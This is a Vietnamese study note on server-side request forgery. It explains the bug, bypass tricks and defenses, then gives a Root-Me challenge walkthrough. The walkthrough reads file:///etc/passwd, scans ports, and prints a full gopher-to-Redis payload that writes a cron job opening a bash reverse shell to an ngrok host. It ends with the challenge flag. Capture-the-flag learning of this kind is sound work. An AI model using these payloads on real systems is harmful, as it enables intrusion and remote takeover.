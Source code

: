```
+ Tìm hiểu về SSRF(Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Giải các bài ssrf trên rootme.
```
# SSRF (Server Side Request Forgery)
## Khái niệm
SSRF là cuộc tấn công yêu cầu giả từ máy chủ cho phép kẻ tấn công thay đổi tham số yêu cầu từ đó có thể kiểm soát được yêu cầu của máy chủ, khi đó kẻ tấn công sẽ khiến máy chủ gửi yêu cầu đến 1 máy chủ khác hoặc chính nó nhằm mục đích xấu.
## Nguyên nhân
- Thiếu kiểm soát đầu vào: Khi máy chủ lấy tài nguyên từ tham số được kiểm soát người dùng mà không có kiểm tra hay xác thực thì kẻ tấn công có thể sử dụng nó để thực hiện yêu cầu.
- Sử dụng máy chủ sử dụng được các protocol không cần thiết (gopher://, dict://,...) và mở 1 số port có thể khai thác(redis, SMB,..)
- Sử dụng IP nội bộ: Khi ứng dụng web cho phép sử dụng IP nội bộ, kẻ tấn công từ đó có thể yêu cầu truy cập mà không cần xác thực
## Tác hại + 1 số cách bypass
### Tác hại
- Kẻ tấn công có thể truy cập vào các dữ liệu nhạy cảm trên máy chủ cũng như trên cục bộ, từ đó ăn cắp thông tin quan trọng của người dùng,...
- Vượt qua các lớp bảo mật, truy cập vào mạng cục bộ từ đó dẫn đến các cuộc tấn công khác nghiêm trọng hơn như RCE,...

### 1 số cách bypass
- Trong cuộc tấn công vào chính máy chủ:
  - Sử dụng IP thay thế `127.0.0.1`, `localhost` như: `2130706433` (dạng số nguyên), `127.0.1`, `127.1`, `017700000001`(dạng octal),...
  - Obfuscating các chuỗi bị filter như URL enconde,...
- Open redirection: Khi ứng dụng web redirect, quan soát các tham số trên URL từ đó có thể kiểm soát được.
- URL parsing: 
  - Sử dụng `@` để đưa phần phía trước thành credential 
  - Sử dụng `#` (fragment) để tạo ra tham số mới mà từ đó máy chủ đọc được và truy cập được nó.

- Encode, double encode,...
- Sử dụng các protocols:
  - `file://`: `file:///etc/passwd`
  - `dict://`:`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>` => `ssrf.php?url=dict://attacker:11111/`
  - `gopher://`: `gopher://<server>:8080/_GET / HTTP/1.0%0A%0A`
  - ...
- Sử dụng tools:
  - <a href="https://github.com/swisskyrepo/SSRFmap" >SSRFMap</a> (phát hiện và khai thác SSRF)
  - <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a> (tạo payload khai thác MySQL, Redis,...)
 
Tham khảo: <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" >Hacktricks</a>
## Phòng chống
- Kiểm tra xác thực đầu vào: kiểm tra giới hạn phạm vi tham số được đưa vào URL ví dụ như giới hạn các địa chỉ IP có thể yêu cầu đến máy chủ...
- Sử dụng whitelist: chỉ định các URL hay các protocols, wrapper hợp lệ mà ứng dụng có thể kiểm soát được.
- Giới hạn truy cập máy chủ cục bộ, sử dụng cấu hình máy chủ hợp lý.
- Sử dụng tường lửa, thư viện bảo mật và thường xuyên cập nhật chúng.

# Root-me
## Server Side Request Forgery
Link: https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery

![image](https://user-images.githubusercontent.com/92881216/229118568-98447fe1-187c-47b2-8e71-deb5e1044c88.png)

Nhìn sơ qua thì web có 1 input url:

![image](https://user-images.githubusercontent.com/92881216/229118790-585c2ee8-144d-4c5f-b177-42feabf035b8.png)

Nhập thử với `https://www.google.com/` thì :

![image](https://user-images.githubusercontent.com/92881216/229119047-c4c6829d-33c3-4638-98b9-3e7b38490972.png)

Như vậy có thể web dùng curl để crawl lại web được nhập từ url. Tiếp tục thử với `file:///etc/passwd`:

![image](https://user-images.githubusercontent.com/92881216/229119398-f4062355-78d3-415b-b356-d9c87e3693ea.png)

Như vậy web có vẻ không filter gì, nhưng trong `/etc/passwd` cũng không có gì, tiếp tục thử với `http://localhost`

![image](https://user-images.githubusercontent.com/92881216/229119635-33516819-24a3-4445-9434-936e3f199173.png)

Như vậy nó có thể yêu cầu đến chính server nó. Mặt khác, SSRF có thể khai thác qua các cổng mở khác có thể dấn đến RCE, vì vậy dùng burp suite để test toàn bộ cổng với payload: `http://localhost:x` với x từ 1 -> 65535 và nhận thấy cổng `6379` bị Timeout.

Như vậy cổng 6379 được mở, đây là cổng mặc định của `redis`.<br>
> Redis 6379 là cổng mặc định mà Redis nghe các kết nối. Nó là một kho lưu trữ cấu trúc dữ liệu trong bộ nhớ phổ biến được sử dụng làm cơ sở dữ liệu, bộ đệm và trình môi giới tin nhắn. Đây là một cơ sở dữ liệu nhanh, có thể mở rộng và đáng tin cậy được sử dụng bởi nhiều trang web và ứng dụng phổ biến.

Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...

Sau 1 hồi tìm hiểu thì đây là cách khai thác:
- Đầu tiên dùng `ngrok` với command `ngrok tcp 1235` để tạo ra 1 tunel từ máy đến internet qua cổng 1235 (Đây là cổng để netcat nghe reverse shell) : 

![image](https://user-images.githubusercontent.com/92881216/229121608-cecd01ed-8214-4641-be29-06aa60d12811.png)

- Tiếp theo, dùng `Gopherus` tạo payload reverse shell với ip vừa tạo từ `ngrok`:

![image](https://user-images.githubusercontent.com/92881216/229122051-08bdffd2-3422-4427-9d5e-b52b474ca55c.png)

Tuy nhiên mặc định tool tạo ra có cổng 1234 nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: 16632)

Payload khi đó là:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/16632%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
- Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...

Kết quả:

![image](https://user-images.githubusercontent.com/92881216/229144082-ebaca7a9-c608-4595-aa4e-78d2be02f7b6.png)

> `SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`

> passwd: `2f798cab4f3c10fd05e7101d365ad60f`



